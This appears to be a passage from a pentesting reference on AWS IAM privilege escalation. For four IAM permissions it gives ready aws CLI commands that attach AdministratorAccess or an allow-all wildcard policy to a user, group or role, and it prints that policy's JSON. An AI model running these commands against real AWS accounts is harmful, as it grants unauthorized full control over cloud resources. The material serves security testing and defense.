 An attacker with the **`iam:AttachUserPolicy`** permission can escalate privileges by **attaching a policy to a user that they have access to**, adding the permissions of that policy to the attacker.

An example command to exploit this method might look like this:

```bash
aws iam attach-user-policy --user-name <my_username> \
    --policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"
```

**Potential Impact:** Direct privesc to anything.

### `iam:AttachGroupPolicy`

An attacker with the **`iam:AttachGroupPolicy`** permission can escalate privileges by **attaching a policy to a group** that they are a part of, adding the permissions of that policy to the attacker.

```bash
aws iam attach-group-policy --group-name group_i_am_in \
    --policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"
```

Where the group is a group the current user is a part of.

**Potential Impact:** Direct privesc to anything (if the user is inside a group).

### `iam:AttachRolePolicy`, `sts:AssumeRole`

An attacker with the **`iam:AttachRolePolicy`** permission can escalate privileges by **attaching a policy to a role** that they have access to, adding the permissions of that policy to the attacker.

```bash
aws iam attach-role-policy --role-name <role_i_can_assume> \
    --policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"
```

Where the role is a role that the current user can temporarily assume with `sts:AssumeRole`.

**Potential Impact:** Direct privesc to anything.

### `iam:PutUserPolicy`

An attacker with the `iam:PutUserPolicy` permission can **escalate privileges by creating or updating an inline policy for a user** that they have access to, adding the permissions of that policy to the attacker.

```bash
aws iam put-user-policy --user-name <my_username> --policy-name "my_inline_policy" \
    --policy-document "file:///path/to/administrator/policy.json"
```

You can use a policy like:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "*"
            ],
            "Resource": [
                "*"
            ]
        }
    ]
}
```
